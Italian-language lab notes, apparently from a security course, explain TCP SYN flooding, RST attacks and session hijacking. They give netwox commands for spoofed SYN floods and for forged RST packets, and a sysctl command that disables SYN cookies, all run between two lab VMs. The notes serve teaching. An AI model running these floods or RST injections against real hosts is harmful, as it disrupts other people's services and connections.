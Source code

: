 # TCP Connections, Send/Receive Buffers
![TCP buffers](/assets/sicurezza_informatica/tcp-connection-buffers.png)<br>

## Stabilire una connessione
![TCP connections](/assets/sicurezza_informatica/tcp-connection.png)<br>

# Overview attacchi

# SYN Flooding Attack
![SYN Flooding attack](/assets/sicurezza_informatica/syn-flooding-attackpng.png)<br>
L'attaccante è in grado di produrre tanti SYN verso il server con una serie di IP casuali spoofati con lo scopo di saturare la coda dei SYN e fare in modo che il server non accetti più connessioni.<br>
SYN flood è una forma di attacco DoS, gli aggressori possono inondare la coda della vittima<br>
La dimensione della coda ha un'impostazione a livello di sistema<br>


# RST Attack
![RST Attack](/assets/sicurezza_informatica/rst-attack.png)<br>
Attacco di RST : Attaccante crea un pacchetto spoofato (ad esempio al posto di Alice) e manda un pacchetto FIN con il giusto seq number per chiudere la connessione, DEVE individuare i giusti sequence number<br>
Lanciare un attacco TCP RST per interrompere una connessione telnet esistente tra VM A e VM B<br>
1. Aprire una connessione telnet da A a B
2. su A esaminare il pacchetto TCP con Wireshark
3. Invia un pacchetto da A netwox 40 –l src –m dst –o 23 –p port –B –q number (usa il prossimo numero di sequenza nel pacchetto telnet)
4. La connessione dovrebbe essere interrotta

# TCP Session Hijacking Attack
Hijacking : posso intervenire in una sessione tra client e server e posso (se riesco a capire il giusto seq number) intromettermi in una conversazione legittima tra client e server, e il server non sarà in grado di distinguere un pacchetto mandato dal client o un pacchetto mandato dall'attaccante spoofato


# Toolbox netwox
```bash
netwox number
``` 
È un toolbox che ti aiuta a trovare e risolvere problemi di network, ha 223 tool al suo interno identificati da un numero (quello da dare dopo il comnado)

```bash
netwox 76
``` 
Il tool 76 è il tool di SYN Flood

```bash
netwox 76 -i "ip" -p "port" [-s "spoofip"]
``` 

# Pre-eserizio macchina 1 (.4)
Per vedere quanto è grossa la coda dei SYN nel backlog:
```bash
sudo sysctl -q net.ipv4.tcp_max_syn_backlog
``` 

Per vedere le connessioni attualmente presenti:
```bash
neststat -na
``` 

Per vedere se i cookie sono abilitati o meno (cookie sono una tecnica di prevenzione al attacco SYN flood), se = 1 abilitati
```bash
sudo sysctl -a | grep cookie
``` 
Per togliere la protezione dei cookie :
```bash
sudo sysctl net.ipv4.tcp_syncookies=0
``` 

# Macchina 2 lancia l'attacco SYN Flood(.5)
Lanciamo la toolbox con il tool di SYN Flood
```bash
sudo netwox 76 -i x.x.x.4 -p 80
``` 

Ora vediamo facendo un netstat nella macchina 1 vedremo che ci saranno molti SYN_RECV da parte di diversi IP (generati dalla macchina 2 durante l'attacco)<br>
Possiamo anche aprire wireshark sulla macchina 2 per vedere la situazione del traffico in rete.

# Macchina 2 - Attacco RST (.5)
Prima cosa da fare è avviare un telnet tra macchina .5 e .4 (volendo si può fare con 3 macchina ma in questo esempio ne useremo 2)<br>
Questo tool manda pacchetti RST (spoofati e non)

```bash
sudo netwox 78 -d [interfaccia di rete]
``` 
dopo aver avviato il tool, la connessione telnet all'inserimento di un altro comando cadrà<br>
Grazie a netwox 40 posso creare un pacchetto spoofato
```bash
sudo netwox 40 -l [IP sorgente] -m [IP destinazione] -o [porta di orgine] -p [porta di destinazione]-B -q [sequence number]
``` 
- -B : RST Attivo
- -q : next seq number

Per trovare i paramentri vado a prendere il pacchetto su wireshark di un pacchetto precedente (Attenzione a sorg e destinazione che devono combaciare con quelli del pacchetto che sto creando)<br>
La connessione su telnet verrà chiusa automaticamente dopo che questo pacchetto viene spedito

